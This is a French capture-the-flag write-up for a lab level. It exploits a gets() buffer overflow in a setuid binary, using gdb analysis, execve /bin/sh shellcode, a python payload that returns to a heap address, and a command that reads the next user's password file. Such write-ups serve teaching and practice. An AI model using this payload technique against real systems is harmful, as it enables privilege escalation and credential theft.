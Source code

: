 ## Comportement
- J'ai des droits `level2` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2*`
- En exécutant le binaire (`./level2`), on observe:
  - qu'il attend un input de notre part.
  - qu'il print notre input avant de quitter.
  - qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level2`) on observe:
- La présence d'une fonction `p()` avec un appel a `gets()`. Comme dans l'exercice precedent, la faille se trouve ici. 
  ```shell
  (gdb) disas p
  ...
  0x080484ed <+25>:	call   0x80483c0 <gets@plt>
  ...
  ```
- Une vérification est effectuée pour s'assurer que nous n'écrasons pas l'adresse de retour avec une adresse de la stack.
Notre adresse de retour ne peut pas commencer par le bit 'b' (indiqué par la commande 'and' avec la valeur "0xb0000000"). 
Elle ne peut donc pas pointer vers la stack (plage 0xbf000000 - 0xbfffffff).
  ```shell
  (gdb) disas p
  ...
  0x080484fb <+39>: and eax,0xb0000000
  0x08048500 <+44>: cmp eax,0xb0000000
  ...
  ```
- On constate que le buffer est ensuite copie via la fonction `strdup()`, or elle utilise `malloc()` qui stocke sur la heap et non la stack. 
  ``` 
  (gdb) disas p
  ...
  0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
  ...
  ```


## Résolution
- On applique un shellcode (petit code qui permet d'ouvrir un shell interactif) et l'inscrire sur la heap. 
Trouve [ici] (http://shell-storm.org/shellcode/files/shellcode-575.php). Il est de long de 21 bytes.
  ```shell
  \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
  ```
- On overwrite l'adresse de retour en utilisant un pattern generator comme [celui-ci] (https://wiremask.eu/tools/buffer-overflow-pattern-generator/) afin de trouver l'offset de l'`eip`. On voit qu'il est de 80 bytes.
- On ajoute 59 bytes de padding (80 - 21) suivi de l'adresse du buffer dans la heap (`\x08\xb0\x04\x08`). Pour trouver celle ci on `run` le programme sous gdb en mettant un breakpoint apres `strdup()`, on observe l'etat du registre `eax` puisque `strdup()` y stocke l'adresse du buffer) : 
  ```shell
  python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xb0\x04\x08"' > /tmp/payload
  ```
- On couple l'envoi du payload avec le `cat` du password comme dans l'exercice precedent pour eviter que le shell ne se referme trop tot67.
  ```shell
  (cat /tmp/payload; echo "cat /home/user/level3/.pass") | ~/level2
  ```

Il ne reste plus qu'à :
- et passer au level3 (`su level3`) en renseignant le password obtenu plus haut.


